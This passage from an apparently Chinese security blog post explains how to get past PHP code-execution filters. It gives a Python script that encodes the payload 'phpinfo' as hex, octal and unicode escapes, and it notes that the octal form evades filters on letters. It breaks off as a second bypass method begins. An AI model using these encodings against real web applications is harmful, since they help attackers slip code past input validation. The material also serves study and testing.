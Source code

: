 ## 字符串转义绕过

> 
适用PHP版本：PHP&gt;=7


> 



```
处理脚本：

# -*- coding:utf-8 -*-
def hex_payload(payload):
	res_payload = ''
	for i in payload:
		i = "\\x" + hex(ord(i))[2:]
		res_payload += i
	print("[+]'{}' Convert to hex: \"{}\"".format(payload,res_payload))

def oct_payload(payload):
	res_payload = ""
	for i in payload:
		i = "\\" + oct(ord(i))[2:]
		res_payload += i
	print("[+]'{}' Convert to oct: \"{}\"".format(payload,res_payload))

def uni_payload(payload):
	res_payload = ""
	for i in payload:
		i = "\\u{{{0}}}".format(hex(ord(i))[2:])
		res_payload += i
	print("[+]'{}' Convert to unicode: \"{}\"".format(payload,res_payload))

if __name__ == '__main__':
	payload = 'phpinfo'
	hex_payload(payload)
	oct_payload(payload)
	uni_payload(payload)

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021060215431999.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602154511761.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602154520380.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
同时，八进制的方法可以绕过无字母传参进行代码执行


## 多次传参绕过

> 
适用PHP版本：无限制<br/> 如果过滤了引号(单引号/双引号)，可以通过以下方法绕过
